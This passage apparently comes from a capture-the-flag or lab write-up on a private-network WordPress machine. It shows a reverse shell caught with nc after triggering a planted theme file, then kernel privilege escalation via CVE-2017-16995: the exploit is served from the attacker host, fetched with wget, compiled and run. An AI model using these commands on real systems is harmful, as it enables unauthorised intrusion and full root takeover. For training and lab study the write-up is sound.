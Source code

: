 ```bash
root@kali:~$ curl http://192.168.179.134/wordpress/wp-content/themes/twentynineteen/secret.php
```

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.134] 56146
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html/wordpress/wp-content/themes/twentynineteen$ uname -r
www-data@ubuntu:/var/www/html/wordpress/wp-content/themes/twentynineteen$ 4.10.0-28-generic
```

## Privilege Escalation
### Linux Kernel Exploit

To this kernel version I found an exploit [cve-2017-16995](https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html), that allows for arbitrary read/write access to the linux kernel, bypassing SMEP/SMAP.

```bash
root@kali:~$ searchsploit ubuntu 4.10.0-28 
--------------------------------------------------------------------------------------------------------- --------------------------
 Exploit Title                                                                                           |  Path   
--------------------------------------------------------------------------------------------------------- --------------------------
Linux Kernel 4.10.5 / < 4.14.3 (Ubuntu) - DCCP Socket Use-After-Free                                     | linux/dos/43234.c 
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                            | linux/local/45010.c 
Ubuntu < 15.10 - PT Chown Arbitrary PTs Access Via User Namespace Privilege Escalation                   | linux/local/41760.txt 
--------------------------------------------------------------------------------------------------------- --------------------------
```

So, I copied the exploit to my current directory and started a web server with python, as shown below:

```bash
root@kali:~$ searchsploit -m linux/local/45010.c
root@kali:~$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Then I downloaded the exploit on the target machine, compiled it and ran it, and this way I got root.

```bash
www-data@ubuntu:/dev/shm$ wget 192.168.179.1:8000/45010.c -O r00t.c
www-data@ubuntu:/dev/shm$ gcc r00t.c -o r00t
gcc r00t.c -o r00t
www-data@ubuntu:/dev/shm$ ./r00t
./r00t
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff8f28770c8500
```